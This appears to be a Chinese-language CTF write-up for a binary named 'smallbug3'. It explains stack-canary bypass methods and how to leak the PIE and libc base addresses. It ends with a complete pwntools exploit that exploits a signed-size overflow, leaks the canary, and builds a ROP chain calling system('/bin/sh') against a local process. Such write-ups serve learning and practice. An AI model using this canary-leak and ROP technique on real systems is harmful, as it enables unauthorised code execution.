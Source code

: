 ```yaml
---
title: smallbug3
data: 2019-07-18
categories:
- sundry
tag: stack  canary  pie 
---
```


**<font style="font-size:25px">绕过canary & 确定基址</font>**

# Canary

## 概念

canary是一个保护机制，具体的实现，是在**ebp和esp**之间放入一个canary值，在程序结束的时候判断是否被更改，改变则通过__stack_chk_fail结束当前进程。一定程度上可以防止栈溢出攻击。
![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718130832_82SPi.png)    
注意这里的var_8,就是放canary值的偏移。   

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718124702_rz8kk.png)

## 特性

占用一个字的大小，canary值的最低位一定是\x00。

## 绕过方法

### 劫持__stack_chk_fail

canary被改写后，程序流程就会经过__stack_chk_fail退出程序。如果将这个函数劫持    
- 例如更改got表

就可以在canary检查失败后劫持程序。   

### 泄露canary值

canary保护机制仅仅检查canary的值是否被篡改，而不会检查栈的其他内容。因此如果每次栈溢出的时候覆盖为相同的值就可以通过检查。   

#### 如何泄露

canary在存储时的最高位（小端序）是'\x00'，会截断canary值和前面的内容。只要将'\x00'覆盖成不会截断字符串打印的值，就可以通过打印字符串的形式得到当前canary值。

#### canary的生成

同一个线程里面的canary值是相同的。

### 爆破

还没试过。与`fork()`这个函数和线程有关。

### 覆盖与栈中canary值进行比较的值

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718131614_PjAaf.png)

# 思路

## 漏洞点

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718132149_Z3Anv.png)   

程序在判断大小的时候nbytes是做的有符号数，而在read中做参数的时候是无符号数。输入负数即可绕过判断进行栈溢出。

## 流程

这个二进制文件checksec一下会发现所有的保护都开了。   
`FULL RELRO`意味着没法改got表，所以要泄露canary的值。
要进行三次栈溢出。  
- 打印canary的值& 泄露程序基址
- 泄露libc基址
- getshell

### 程序基址怎么泄露


我暂时还没有找到相关资料，但是我打开了一些二进制文件，发现在main函数里面的时候：
- 32位的ebp指向的栈里保存的是0x0
- 64位的rbp指向的栈里保存的是__libc_csu_init的地址。
- 我还搞不清楚的是为什么__libc_csu_init的地址不是7f开头而是与程序加载基址有关。

我们如果用这个想法来看这个程序的rbp，  

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718140553_Xj5Cz.png)    

虽然他去符号化了，但是按照这个思路来说，就可以根据__libc_csu_init的地址找到main的地址。
```python
main_addr = __libc_csu_init_addr & (~0xfff) + 0x9cc
```
`0x9cc` 是从ida里面看的main地址。因为他开了pie，所以这个只是一个偏移地址。程序加载基址是`__libc_csu_init_addr & (~0xfff)`

**<font style="font-size:30px"> 待补充原因</font>**

### libc基址怎么泄露

使用puts打印出puts@got的内容。

### getshell

可以使用one_gadget,也可以直接构造`system('/bin/sh')`,但是如果打远程的话需要知道libc的版本。  

系统中断不行，找不到int 0x80。   

### 注意点

1. 程序是64位，采用寄存器传参，需要使用pop_rdi_ret。
2. 地址低位为`\x00`时在`u64()`的前面补`\x00`，高位则在后面。

## 坑

为什么gdb.attach的位置会影响exp？？？

# exp

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

sh = process('./smallbug3')
elf = ELF('./smallbug3')
libc = elf.libc

log.info("===================>fake size<=================")
sh.sendlineafter('name:\n',"-1")
log.info("===============>leak canary value<==============")
offset = 0x94 - 0x4 - 0x8
payload = 'A' * offset + 'B'

sh.sendafter('name:\n',payload)
sh.recvuntil("B")
canary = u64('\x00' + sh.recv(7))
print '-------------------{:#x}-----------------'.format(canary)

log.info("=============>leak process main addr <===========")
elf_base = u64( sh.recv(6) + '\x00\x00') & (~0xfff)
main_addr = elf_base + 0x9cc

log.info("===============>leak libc base<==================")
puts_got = elf.got['puts'] + elf_base
puts_plt = elf.plt['puts'] + elf_base
pop_rdi_ret = 0xb33 + elf_base

payload = 'A'* offset + p64(canary) + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(puts_got) 
payload += p64(puts_plt) + p64(main_addr)


sh.sendlineafter('us:\n',payload)
libc_base = u64(sh.recvuntil('\x7f')[-6:]+'\x00\x00') - libc.symbols['puts']

print '-------------------main_addr:{:#x}-----------------'.format(main_addr)
print '-------------------libc_base:{:#x}-----------------'.format(libc_base)

log.info('===============>get shell<=======================')
 #one_gadget local_libc
one_gadget = libc_base + 0x4239e
system_addr = libc_base + libc.symbols['system']
bin_addr = libc_base + libc.search('/bin/sh').next()

sh.sendlineafter('name:\n',"-1")
sh.sendlineafter('name:\n','A' * 8)
#payload = 'A' * offset + p64(canary) + 'A' * 8 + p64(one_gadget)
payload = 'A' * offset + p64(canary) + 'A' * 8 + p64(pop_rdi_ret) + p64(bin_addr) + p64(system_addr)
sh.sendlineafter('us:\n',payload)

sh.interactive()
sh.close()
```